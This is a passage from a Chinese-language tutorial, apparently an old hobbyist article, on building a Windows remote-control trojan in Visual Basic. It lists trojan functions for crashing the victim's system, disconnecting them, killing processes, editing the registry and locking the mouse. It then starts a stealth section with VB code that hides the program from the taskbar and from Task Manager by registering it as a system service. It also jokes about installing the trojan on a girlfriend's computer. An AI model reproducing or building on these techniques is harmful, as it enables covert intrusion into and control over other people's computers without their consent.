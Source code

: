 b.锁定鼠标  
ClipCursor(lpRect As RECT)可以将指针限制到指定区域,或者用ShowCursor(FALSE)把鼠标隐藏起来也可以  
  
注:RECT是一个矩形,定义如下:  
Type RECT  
Left As Long  
Top As Long  
Right As Long  
Bottom As Long  
End Type  
  
c.锁定系统
这个有太多的办法了,嘿嘿,想Windows不死机都困难呀,比如,搞个死循环吧,当然,要想系统彻底崩溃还需要一点技巧,比如设备漏洞或者耗尽资源什么的......  
  
d.让对方掉线 RasHangUp......  
  
e.终止进程 ExitProcess......  
  
f.关闭窗口 利用FindWindow函数找到窗口并利用SendMessage函数关闭窗口  
  
  
  
5.远程文件操作  
无论在哪种编程语言里, 文件操作功能都是比较简单的, 在此就不赘述了,你也可以用上面提到的FileSystemObject对象来实现  
  
6.注册表操作  
在VB中只要Set RegEdit=CreateObject（"WScript.Shell")  
就可以使用以下的注册表功能:  
删除键值:RegEdit.RegDelete RegKey  
增加键值:RegEdit.Write RegKey,RegValue  
获取键值:RegEdit.RegRead (Value)  
记住,注册表的键值要写全路径,否则会出错的。  
  
7.发送信息  
很简单,只是一个弹出式消息框而已,VB中用MsgBox("")就可以实现,其他程序也不太难的。  
  
8.点对点通讯  
呵呵,这个嘛随便去看看什么聊天软件就行了  
(因为比较简单但是比较烦,所以我就不写了,呵呵。又:我始终没有搞懂冰河为什么要在木马里搞这个东东，困惑......)  
  
9.换墙纸  
Call SystemParametersInfo(20,0,"BMP路径名称",&H1)  
值得注意的是,如果使用了Active Desktop,换墙纸有可能会失败，遇到这种问题，请不要找冰河和我，去找比尔盖子吧。  
三、潜行篇（Windows，一个捉迷藏的大森林）  
  
木马并不是合法的网络服务程序(即使你是把木马装在女朋友的机子上,也是不合法的,当然,这种行为我可以理解，呵呵)，因此，它必须想尽一切办法隐藏自己，好在，Windows是一个捉迷藏的大森林!  
1、在任务栏中隐藏自己：  
这是最基本的了,如果连这个都做不到......（想象一下，如果Windows的任务栏里出现一个国际象棋中木马的图标...@#$%!#@$...也太嚣张了吧!)  
在VB中，只要把form的Visible属性设为False, ShowInTaskBar设为False, 程序就不会出现在任务栏中了。  
  
2、在任务管理器中隐形：（就是按下Ctrl+Alt+Del时看不见那个名字叫做“木马”的进程）  
这个有点难度，不过还是难不倒我们，将程序设为“系统服务”可以很轻松的伪装成比尔盖子的嫡系部队(Windows,我们和你是一家的,不要告诉别人我藏在哪儿...)。  
在VB中如下的代码可以实现这一功能：  
Public Declare Function RegisterServiceProcess Lib "kernel32" (ByVal ProcessID
As Long, ByVal ServiceFlags As Long) As Long  
Public Declare Function GetCurrentProcessId Lib "kernel32" () As Long  
(以上为声明)  
Private Sub Form_Load()  
RegisterServiceProcess GetCurrentProcessId, 1 (注册系统服务)  
End Sub  
Private Sub Form_Unload()  
RegisterServiceProcess GetCurrentProcessId, 0 (取消系统服务)  
End Sub  
  